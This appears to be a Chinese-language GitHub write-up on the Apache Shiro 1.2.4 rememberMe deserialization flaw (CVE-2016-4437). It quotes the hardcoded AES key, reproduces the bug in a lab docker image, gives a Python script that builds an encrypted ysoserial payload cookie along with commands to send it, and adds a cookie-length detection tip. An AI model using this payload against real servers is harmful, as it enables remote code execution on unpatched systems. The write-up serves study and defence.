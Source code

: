 # Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)

## 简介

Apache Shiro 是重要的 Java 权限及安全验证框架。

根据[官方issue](https://issues.apache.org/jira/browse/SHIRO-550)

* Retrieve the value of the rememberMe cookie

* CookieRememberMeManager.java

* Base64 decode

* Decrypt using AES

* 加密密钥硬编码

* Java serialization(ObjectInputStream)

CookieRememberMemanager.java 的父类AbstractRememberMeManager存在硬编码：


	/**
     * The following Base64 string was generated by auto-generating an AES Key:
     * <pre>
     * AesCipherService aes = new AesCipherService();
     * byte[] key = aes.generateNewKey().getEncoded();
     * String base64 = Base64.encodeToString(key);
     * </pre>
     * The value of 'base64' was copied-n-pasted here:
     */
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

因为 AES 是对称加密，即加密密钥也同样是解密密钥。

攻击者可以使用有效的rememberMe cookie，然后构造rememberMe来执行Java反序列化攻击，最终导致远程代码执行。

## 复现


使用这个docker复现成功，使用vulhub镜像复现未成功。

```docker pull medicean/vulapps:s_shiro_1```

```docker run -d -p 8080:8080 medicean/vulapps:s_shiro_1```



![](2.png)

apache shiro 这个洞, 登录时需要勾选 ```Remember me``` ， 否则Cookie显示的是 ```rememberMe=deteleMe```

![](1.png)

登陆后看到 Cookie中的rememberMe记录登陆后的加密字符串。

![](3.jpg)

**实际复现无需登陆。**

生成payload的脚本：

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES  # pip3 install pycryptodome
	
	def encode_rememberme(command):
	    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
	    BS   = AES.block_size
	    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
	    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
	    mode =  AES.MODE_CBC
	    iv   =  uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key), mode, iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
	    return base64_ciphertext
	
	if __name__ == '__main__':
	    payload = encode_rememberme(sys.argv[1])
		with open("payload.cookie", "w") as f:
			print("rememberMe={}".format(payload.decode()), file=f) 

用法： 

	python3 shiro_payload.py "touch /tmp/success"

	http get(或head) ip:8080 Cookie:`cat payload.cookie`

## 特征分析

正常登陆成功返回的cookie 中 rememberMe= 后的加密key长度 500多。 恶意key通常较长，有4000多，可以设置阈值长度，再根据告警的资产用脚本打 dns log平台验证。


## 影响版本

Apache Shiro <= 1.2.4

## 参考资料


[创宇404实验室分析Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞](https://paper.seebug.org/shiro-rememberme-1-2-4/)


[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)


[这里收集其他硬编码的秘钥，以及测试其他不同的可以使用的CommonCollections版本](https://cloud.tencent.com/developer/article/1540882)
